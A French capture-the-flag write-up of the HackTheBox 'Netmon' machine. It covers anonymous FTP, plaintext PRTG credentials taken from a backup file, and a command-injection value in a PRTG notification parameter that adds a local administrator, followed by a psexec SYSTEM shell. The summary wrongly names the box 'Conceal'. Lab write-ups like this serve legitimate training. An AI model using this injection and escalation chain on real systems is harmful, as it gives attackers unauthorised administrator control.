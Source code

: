 ```yaml
---
title: "HackTheBox - Netmon"
description: "fileoutput.jpg"
tags: ["Dans cet article je vous présente comment être administrateur dans la boîte Netmon, c'était une boîte très amusante mais en même temps très facile. Le FTP n'était pas chroot dans le système ce qui nous permettait de lire des fichiers plus ou moins sensible, il y'avait un service PRTG Network Monitor qui tournait ce qui nous permettait d'être administrateur dans le système"]
---
```


![Flower](../fileoutput.jpg)

Informations
----
    Ip :  10.10.10.152      Created by : mrb3n
    Level : Easy    Base Points : 20
    
Résumé : <br />

Le système Conceal, disponible sur la platform [HackTheBox](https://www.hackthebox.eu/), fut très intéressant et amusante. La boîte était relativement simple. De plus, j’ai appris beaucoup de chose tout au long de l’exploitation des failles de ce système. <br />

- Le protocole `FTP` est ouvert, et il était possible de se connecter en `anonymous`.
- Le service FTP n'est pas `chroot` ce qui nous permettait de lire des fichiers dans le système.
- Il y'a le service `PRTG Network Monitor` d'ouvert dans le système et il y'avait un fichier `backup` assez sensible pour la récupération du mot de passe de la session.
- Nous pouvons exécuter des commandes grâce au système `PRTG Network Monitor` et ensuite faire notre reverse shell pour être administrateur.

Nmap
----
    Starting Nmap 7.01 ( https://nmap.org ) at 2019-06-29 17:21 CEST
    Nmap scan report for 10.10.10.152
    Host is up (0.040s latency).
    PORT    STATE SERVICE      VERSION
    21/tcp  open  ftp          Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | 02-03-19  12:18AM                 1024 .rnd
    | 02-25-19  10:15PM       <DIR>          inetpub
    | 07-16-16  09:18AM       <DIR>          PerfLogs
    | 02-25-19  10:56PM       <DIR>          Program Files
    | 02-03-19  12:28AM       <DIR>          Program Files (x86)
    | 02-03-19  08:08AM       <DIR>          Users
    |_06-29-19  11:07AM       <DIR>          Windows
    80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
    | http-title: Welcome | PRTG Network Monitor (NETMON)
    |_Requested resource was /index.htm
    139/tcp open  netbios-ssn  Microsoft Windows 98 netbios-ssn
    445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 microsoft-ds
    Service Info: OSs: Windows, Windows 98, Windows Server 2008 R2; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_98, cpe:/o:microsoft:windows_server_2008:r2

    Host script results:
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smbv2-enabled: Server supports SMBv2 protocol

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 20.61 seconds

Il y'a différent services d'ouvert notamment le service `FTP` ou nous avons les permissions pour se connecter en tant que `anonymous`.

FTP
----
    root@Seyptoo:~/htb/box/Netmon# ftp 10.10.10.152
    Connected to 10.10.10.152.
    220 Microsoft FTP Service
    Name (10.10.10.152:root): anonymous
    220 Microsoft FTP Service
    Name (10.10.10.152:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:18AM                 1024 .rnd
    02-25-19  10:15PM       <DIR>          inetpub
    07-16-16  09:18AM       <DIR>          PerfLogs
    02-25-19  10:56PM       <DIR>          Program Files
    02-03-19  12:28AM       <DIR>          Program Files (x86)
    02-03-19  08:08AM       <DIR>          Users
    06-29-19  11:07AM       <DIR>          Windows
    226 Transfer complete.
    ftp> cd Users
    250 CWD command successful.
    ftp> cd Public
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  08:05AM       <DIR>          Documents
    07-16-16  09:18AM       <DIR>          Downloads
    02-03-19  12:35AM                   33 user.txt
    07-16-16  09:18AM       <DIR>          Videos
    226 Transfer complete.
    ftp> mget user.txt
    mget user.txt? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    WARNING! 1 bare linefeeds received in ASCII mode
    File may not have transferred correctly.
    226 Transfer complete.
    33 bytes received in 0.03 secs (0.9522 kB/s)
    ftp> exit
    root@Seyptoo:~/htb/box/Netmon# wc -c user.txt 
    33 user.txt

Le fichier `user.txt` est disponible et nous pouvons le transférer vers notre machine physique.

PRTG ADMIN
----

D'après le scan et également d'après mes recherches le service tourne dans le dossier `ProgramData`.

    ftp> cd ProgramData
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:15AM       <DIR>          Licenses
    11-20-16  10:36PM       <DIR>          Microsoft
    02-03-19  12:18AM       <DIR>          Paessler
    02-03-19  08:05AM       <DIR>          regid.1991-06.com.microsoft
    07-16-16  09:18AM       <DIR>          SoftwareDistribution
    02-03-19  12:15AM       <DIR>          TEMP
    11-20-16  10:19PM       <DIR>          USOPrivate
    11-20-16  10:19PM       <DIR>          USOShared
    02-25-19  10:56PM       <DIR>          VMware
    226 Transfer complete.
    ftp> cd Paessler
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    06-29-19  11:11AM       <DIR>          PRTG Network Monitor
    226 Transfer complete.
    ftp> cd "PRTG Network Monitor"
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
    06-29-19  10:29AM       <DIR>          Log Database
    02-03-19  12:18AM       <DIR>          Logs (Debug)
    02-03-19  12:18AM       <DIR>          Logs (Sensors)
    02-03-19  12:18AM       <DIR>          Logs (System)
    06-29-19  10:29AM       <DIR>          Logs (Web Server)
    06-29-19  10:34AM       <DIR>          Monitoring Database
    02-25-19  10:54PM              1189697 PRTG Configuration.dat
    06-29-19  10:58AM              1292772 PRTG Configuration.old
    07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
    06-29-19  11:11AM              1548431 PRTG Graph Data Cache.dat
    02-25-19  11:00PM       <DIR>          Report PDFs
    02-03-19  12:18AM       <DIR>          System Information Database
    02-03-19  12:40AM       <DIR>          Ticket Database
    02-03-19  12:18AM       <DIR>          ToDo Database
    226 Transfer complete.

Nous avons des fichiers plutôt interéssant notamment le fichier `backup PRTG Configuration.old.bak`, nous allons transférer ce fichier vers notre machique physique pour énumérer ce fichier. Quand nous défilons un peu, on peut constater des informations d'identification dans le système `PRTG Network Monitor`.

    <dbpassword>
        <!-- User: prtgadmin -->
        PrTg@dmin2018
    </dbpassword>

Donc si vous tentez d'accéder au service, logiquement vous aurez pas accès car le mot de passe correspond celui là de 2018, et comme nous avons changer de génération c'est 2019. (J'ai mis pas mal de temps à comprendre).

HTTP
----
Donc nous avons les informations d'identification nous pouvons nous connecter dans le service en question et d'éxecuter des commandes.

> Username : prtgadmin <br />
> Password : PrTg@dmin2019

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561823414-1551726438018.png)

Une fois connecté au service nous allons allez dans `Setup` et ensuite notifications. Créé une nouvelle notification et ensuite d'aller dans `Execute Program` pour justement exécuter des commandes. Je vais créé un utilisateur qui serais dans le groupe `administrators`.

`test.txt;net user anon p3nT3st! /add;net localgroup administrators anon /add`

Vous devez mettre les informations dans la section `Parameter` et de mettre les informations pour créé notre utilisateur comme administrateur.

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561826366-1551726674533.png)

Vous enregistrez la notification et ensuite vous cliquez sur la petite cloche et normalement votre commande a été exécuter avec succès. Vous devriez un peu patienter pour que la commande sois exécuter avec certitude.

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561823969-1551726729729.png)

PrivEsc
----

Une fois toute les modifications ont été effectué vous vous connectez avec `psexec.py` dans le système pour être administrateur. Vous pouvez également utilisé `smbclient`.

    root@Seyptoo:~/htb/box/Netmon# psexec.py 'anon:p3nT3st!@10.10.10.152'
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.152.....
    [*] Found writable share ADMIN$
    [*] Uploading file tbwyLJgn.exe
    [*] Opening SVCManager on 10.10.10.152.....
    [*] Creating service PdOp on 10.10.10.152.....
    [*] Starting service PdOp.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system

CONCLUSION
----
Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, vous aura plus. Une boîte vraiment intéréssante et concrètement assez originale, une boîte relativement simple.
